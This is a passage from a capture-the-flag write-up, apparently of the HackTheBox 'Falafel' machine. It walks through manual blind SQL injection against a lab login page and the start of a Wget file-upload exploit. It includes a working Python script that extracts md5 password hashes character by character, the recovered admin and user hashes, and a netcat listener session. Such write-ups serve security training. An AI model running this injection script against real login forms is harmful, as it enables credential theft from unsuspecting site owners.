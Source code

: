 **2- Manual Exploitation of SQL Injection**

As mentioned at the beginning of the blog, this was a blind SQL injection where you had to ask the application true and false questions in order to enumerate every character of the hashed password. We did this with an automated tool called SQLMap, however, this could have easily been done with the following simple script \(sqli-exploit.py\).

```text
import requestschars = "0123456789abcdef"def GetSQL(i,c):
    return "admin' and substr(password,%s,1) = '%s' -- -" % (i,c)for i in range(1,33):
    for c in chars:
        injection = GetSQL(i,c)
        payload = {'username':injection,'password':"randompassword"}
        r = requests.post('http://10.10.10.73/login.php',data=payload)
        if 'Wrong identification' in r.text:
            print(c,end='',flush=True)
            breakprint()
```

The idea behind the script is that we loop through all the possible characters in an md5 hash \(chars variable\) and ask the application if the first character of the hashed password is equal to the first character of the chars string. If it is not, we ask the application if the first character of the hashed password is equal to the second character of the chars string, and so on until we get the ‘Wrong identification’ error which indicates that the we identified the first character of the password. This is done in a loop until we identify all 32 characters of the md5 hashed password.

The following is an example of using the blind SQL injection to ask the application if the first character of the md5 hashed password is “0”. Since we got the error “Wrong identification”, that is equivalent to the application responding with a “yes it is the first character of the md5 hashed password”.

![](https://miro.medium.com/max/1425/1*N49GoOofwiFIpdzqdIMixQ.png)

Obviously doing something like this by hand is time consuming, so I found it really cool how ippsec did it with the above simple script.

```text
root@kali:~/Desktop/htb/falafel# python3 sqli-exploit.py 
0e462096931906507119562988736854  #admin passwordroot@kali:~/Desktop/htb/falafel# python3 sqli-exploit.py 
d4ee02a22fc872e36d9e3751ba72ddc8 #chris password
```

**3- Wget Arbitrary File Upload Exploit**

When uploading a file, you’ll notice that the application is using Wget version 1.17.1. This can be viewed by setting up a netcat session and then trying to upload a file.

```text
root@kali:~/Desktop/htb/falafel# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.73] 44408
GET /test.png HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.12:1234
Connection: Keep-Alive
```
